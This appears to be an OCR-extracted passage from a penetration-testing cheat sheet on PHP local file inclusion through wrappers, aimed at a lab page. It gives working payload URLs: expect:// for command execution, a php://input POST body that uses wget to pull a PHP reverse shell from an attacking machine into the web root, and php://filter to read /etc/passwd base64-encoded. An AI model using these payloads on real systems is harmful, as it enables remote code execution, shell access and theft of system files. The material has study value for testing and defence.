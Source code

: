 http://127.0.0.1/fileincl/example1.php?page=expect://ls

# Below is the error received if the PHP expect wrapper is disabled:
Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7

# PHP Wrapper php://file
========================
# Another PHP wrapper, php://input your payload is sent in a POST request using curl, 
# burp or hackbar to provide the post data is probably the easiest option.
# Example:
http://192.168.183.128/fileincl/example1.php?page=php://input

# Post Data payload, try something simple to start with like: 
# Then try and download a reverse shell from your attacking machine using:
<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>

# After uploading execute the reverse shell at http://192.168.183.129/shell.php


# PHP Wrapper php://filter
==========================
# Another PHP wrapper, php://filter in this example the output is encoded using base64, 
# so you’ll need to decode the output.
http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd

